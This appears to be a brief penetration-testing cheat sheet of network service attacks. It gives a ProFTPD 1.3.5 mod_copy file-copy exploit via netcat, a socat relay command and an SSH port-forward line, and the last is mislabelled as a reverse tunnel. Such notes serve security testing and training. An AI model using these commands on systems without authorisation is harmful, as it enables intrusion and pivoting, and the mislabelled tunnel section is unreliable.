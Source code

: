 # Network Services Exploits

## Proftpd v1.3.5

### mod_copy RCE
```sh
nc 0.0.0.0 21
SITE CPFR /path/to/file
SITE CPTO /path/to/destination/file
```

## SOCAT

### TCP Relay

```sh
./socat TCP-LISTEN:8006,fork TCP:127.0.0.1:43727
```

## SSH

### Reverse SSH Tunnel

- Forward port from remote machine to local machine
```sh
# Open tunnel on local machine to remote machine
# Will forward port 10000 form remote to local
ssh -L 10000:localhost:10000 <username>@<ip>
```